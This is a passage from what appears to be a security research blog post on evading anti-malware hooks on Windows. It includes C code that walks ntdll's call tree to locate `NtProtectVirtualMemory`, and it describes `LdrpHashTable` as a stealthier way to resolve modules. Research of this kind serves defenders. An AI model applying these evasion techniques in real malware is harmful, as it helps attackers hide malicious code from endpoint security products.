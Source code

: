 These checks will go a long way to make sure we don't trigger a crash. Putting it together, we can scan reliably down any call tree until we find `NtProtectVirtualMemory`

```C
PVOID pCallSite = NULL;
PVOID pRtlExitUserThread = ScanForCallInstruction((PBYTE)pRtlUserThreadStart, 0x50, 3, &pCallSite);
if (!IsLikelyNearCall((PBYTE)pCallSite, 5) || !IsLikelyFunctionProlog((PBYTE)pRtlExitUserThread)) {
    return -1;
}
PVOID pLdrShutdownThreadCall = ScanForCallInstruction((PBYTE)pRtlExitUserThread, 0x50, 2, &pCallSite);
if (!IsLikelyNearCall((PBYTE)pCallSite, 5) || !IsLikelyFunctionProlog((PBYTE)pLdrShutdownThreadCall)) {
    return -1;
}
PVOID pRtlpFlsDataCleanup = ScanForCallInstruction((PBYTE)pLdrShutdownThreadCall, 0x50, 1, &pCallSite);
if (!IsLikelyNearCall((PBYTE)pCallSite, 5) || !IsLikelyFunctionProlog((PBYTE)pRtlpFlsDataCleanup)) {
    return -1;
}
PVOID pRtlFreeHeap = ScanForCallInstruction((PBYTE)pRtlpFlsDataCleanup, 0x200, 7, &pCallSite);
if (!IsLikelyNearCall((PBYTE)pCallSite, 5) || !IsLikelyFunctionProlog((PBYTE)pRtlFreeHeap)) {
    return -1;
}
PVOID pRtlpFreeHeapInternal = ScanForCallInstruction((PBYTE)pRtlFreeHeap, 0x200, 5, &pCallSite);
if (!IsLikelyNearCall((PBYTE)pCallSite, 5) || !IsLikelyFunctionProlog((PBYTE)pRtlpFreeHeapInternal)) {
    return -1;
}
PVOID pNtProtectVirtualMemory= ScanForCallInstruction(((PBYTE)pRtlpFreeHeapInternal), 0x85000, 1633, &pCallSite);
if (!IsLikelyNearCall((PBYTE)pCallSite, 5)) {
    return -1;
}
```

However, we must note two more things:

1. This method is not generic and still depends on the position of the `e8` call in the code.
2. We are expecting an anti-malware hardened environment, meaning `NtProtectVirtualMemory` may be hooked.

Lets suppose we arrive at `NtProtectVirtualMemory`. The AM product has placed a hook there, meaning our very strange and (now) non-unwindable call stack will access that hook if we attempt to execute it. However, we have a high certainty this hook location is `NtProtectVirtualMemory`.

Conveniently, NTDLL NT API system call functions are neatly organized, and the likelihood that the functions surrounding our target are very unlikely to also be hooked.

## Moving Beyond NTDLL

Although known since at least 2006, a somewhat forgotten component of ntdll called `ntdll!LdrpHashTable` conveniently exists which can be used as an alternative to the ordinary PEB structures to get the addresses of loaded modules, and works in essentially the same way {{< citation >}}http://www.ivanlef0u.tuxfamily.org/?p=365{{< /citation >}}. Conveniently, the address of this global variable is located in proximity to `ntdll!FastPebLock` on some versions of Windows (plus `0x60` in my case).
